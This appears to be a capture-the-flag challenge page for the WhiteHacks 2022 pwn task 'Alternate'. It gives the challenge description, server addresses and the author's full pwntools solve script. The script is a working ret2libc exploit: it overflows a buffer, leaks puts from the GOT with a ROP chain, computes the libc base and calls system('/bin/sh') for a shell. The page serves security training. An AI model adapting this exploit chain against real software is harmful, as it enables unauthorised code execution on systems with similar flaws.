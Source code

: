 1 SOLVES 1000 points

# DESCRIPTION
Author: jinjinz

Difficulty: Medium

A wild alien has appeared! Our Earth Defense Forces did not predict this invasion and could not respond in time. The only usable weapon right now is a pair of loaded laser cannons that can fire just once. It is up to you as the marksman operator to take down this enemy of mankind. Also, there are some rumours that this alien is holding onto our flag. Make this shot count.

Challenge Access:
nc challenges1.whitehacks.xyz 22050
nc challenges2.whitehacks.xyz 22050
---
the source code was released after a while
# Solutions by other people
<https://github.com/caprinux/ctf-writeups/tree/main/WhiteHacks2022/Pwn/Alternate>

Author's solve script:
```#!/usr/bin/env python3

from pwn import *

context.terminal = ["tmux", "splitw", "-h"]
elf = context.binary = ELF("./alternate")

BUFSIZE = 68

if args.REMOTE:
    io = remote("127.0.0.1", 8080)
    libc = ELF("./libc6_2.31-0ubuntu9_amd64")
else:
    io = elf.process()
    libc = io.libc


def send_payload(payload: bytes):
    alpha = bytes([x for i, x in enumerate(payload) if i % 2 == 0])
    beta = bytes([x for i, x in enumerate(payload) if i % 2 != 0])
    io.sendafter(b"Load up Cannon Alpha: ", alpha.ljust(BUFSIZE, b"\x00"))
    io.sendafter(b"Load up Cannon Beta: ", beta.ljust(BUFSIZE, b"\x00"))
    io.recvlines(2)


# Stage 1: Leak GOT and return to load_cannon()
rop = ROP(elf)
rop.puts(elf.got.puts)
rop.load_cannon()

log.debug(rop.dump())

payload = flat(
    {
        84: p32(BUFSIZE),
        88: p32(BUFSIZE),
        92: p32(BUFSIZE + len(rop.chain())),
        104: rop.chain(),
    }
)
send_payload(payload)

# Stage 2: Calculate libc base address
puts = u64(io.recvline(False).ljust(8, b"\x00"))
log.success(f"puts @ {hex(puts)}")

if args.REMOTE:
    libc.address = puts - libc.sym.puts

log.success(f"libc base @ {hex(libc.address)}")

# Stage 3: ROP Pwn
rop = ROP([elf, libc])
rop.raw(rop.ret)
rop.system(next(libc.search(b"/bin/sh\x00")))

log.debug(rop.dump())

payload = flat(
    {
        84: p32(BUFSIZE),
        88: p32(BUFSIZE),
        92: p32(BUFSIZE + len(rop.chain())),
        104: rop.chain(),
    }
)
send_payload(payload)

io.interactive()
io.close()
```